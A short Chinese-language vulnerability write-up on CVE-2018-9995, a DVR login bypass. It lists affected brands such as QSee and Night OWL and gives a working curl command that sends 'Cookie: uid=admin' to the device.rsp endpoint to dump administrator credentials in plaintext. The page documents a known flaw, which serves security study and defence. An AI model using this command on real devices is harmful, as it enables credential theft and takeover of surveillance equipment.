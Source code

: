# DVR 登录绕过漏洞 CVE-2018-9995

## 漏洞描述

DVR，全称为Digital Video Recorder(硬盘录像机)，即数字视频录像机。最初由阿根廷研究员发现，通过使用“Cookie： uid = admin”的Cookie标头来访问特定DVR的控制面板，DVR将以明文形式响应设备的管理员凭证。

## 漏洞影响

<a-checkbox checked>Novo</a-checkbox></br>

<a-checkbox checked>CeNova</a-checkbox></br>

<a-checkbox checked>QSee</a-checkbox></br>

<a-checkbox checked>Pulnix</a-checkbox></br>

<a-checkbox checked>XVR 5 in 1 (title: "XVR Login")</a-checkbox></br>

<a-checkbox checked>Securus, - Security. Never Compromise !! -</a-checkbox></br>

<a-checkbox checked>Night OWL</a-checkbox></br>

<a-checkbox checked>DVR Login</a-checkbox></br>

<a-checkbox checked>HVR Login</a-checkbox></br>

<a-checkbox checked>MDVR Login</a-checkbox></br>

## 漏洞复现

使用curl命令获得账号密码

```shell
curl "http://xxx.xxx.xxx.xxx/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"
```

![img](../../../.vuepress/public/img/dvr-1.png)